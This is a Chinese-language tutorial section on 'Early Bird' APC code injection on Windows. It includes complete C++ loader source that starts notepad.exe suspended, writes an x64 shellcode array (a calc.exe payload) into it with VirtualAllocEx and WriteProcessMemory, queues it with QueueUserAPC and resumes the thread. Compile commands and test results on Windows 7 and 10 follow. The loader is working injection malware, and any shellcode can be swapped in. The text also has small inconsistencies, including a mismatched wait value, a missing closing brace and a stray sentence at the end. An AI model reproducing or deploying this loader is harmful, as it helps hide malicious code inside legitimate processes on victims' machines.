\newpage
\subsection{APC 注入技术：简单的 C++ 恶意软件}

在之前的几节中，我讲了经典代码注入和经典 DLL 注入。

{width="80%"}

今天在这一节中，我将讨论一种“Early Bird”APC 注入技术。今天我们要看的是 `QueueUserAPC`，它利用异步过程调用（asynchronous procedure call）向特定线程排队。

每个线程都有自己的 APC 队列。应用程序通过调用 `QueueUserAPC` 函数向某个线程排队一个 APC。调用线程在调用 `QueueUserAPC` 时指定 APC 函数的地址。排队一个 APC 就是请求该线程调用这个 APC 函数。

这项技术的高层概览是：

首先，我们的恶意软件创建一个新的合法进程（在我们的例子中是 `notepad.exe`）：

{width="80%"}

{width="80%"}

每当我们看到对 `CreateProcess` 的调用时，我们要注意的两个重要形参是第一个（要调用的可执行文件）和第六个（进程创建标志）。这里的创建标志是 `CREATE_SUSPENDED`。

然后，在新创建进程的内存空间中为载荷分配内存：

{width="80%"}

{width="80%"}

正如我在之前的帖子中写过的，`VirtualAlloc` 和 `VirtualAllocEx` 之间有一个非常重要的区别。前者在调用进程中分配内存，后者在远程进程中分配内存。所以如果我们看到恶意软件调用 `VirtualAllocEx`，那么很可能即将发生某种跨进程活动。

声明指向 shellcode 的 APC 例程。

{width="80%"}

把 APC 排队到当前处于挂起状态的主线程：

{width="80%"}

{width="80%"}

最后，恢复线程，我们的载荷就被执行了：

{width="80%"}

{width="80%"}

所以，我们完整的源代码是（`evil.cpp`）：

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
  "C:\\Windows\\System32\\notepad.exe",
  NULL, NULL, NULL, false,
  CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, 
  my_payload_mem, 
  my_payload, 
  my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;

```

如你所见，为了简单起见，我们用 64 位的 `calc.exe` 作为载荷。不深入探讨载荷的生成，我们只是把载荷插入到代码中：

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

我们来编译：

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s \
-ffunction-sections -fdata-sections -Wno-write-strings \ 
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc
```

{width="80%"}

我们在 Windows 7 x64 上启动 `evil.exe`：

{width="80%"}

如果我们在 Process Hacker 中检查新启动的 `notepad.exe`，就能确认主线程确实处于挂起状态：

{width="80%"}

如你所见，`WaitForSingleObject` 函数的第二个形参为了演示用的是 30000，在真实场景中它没有这么大。

我们的 `evil.exe` 在 Windows 10 x64 上也能工作：

{width="80%"}

未来我会试着研究更多高级的代码注入技术。我希望这一节能让蓝队人员了解这项有趣的技术，并为红队人员的武器库增添一件武器。

### 参考资料

然后把载荷写入已分配的内存：
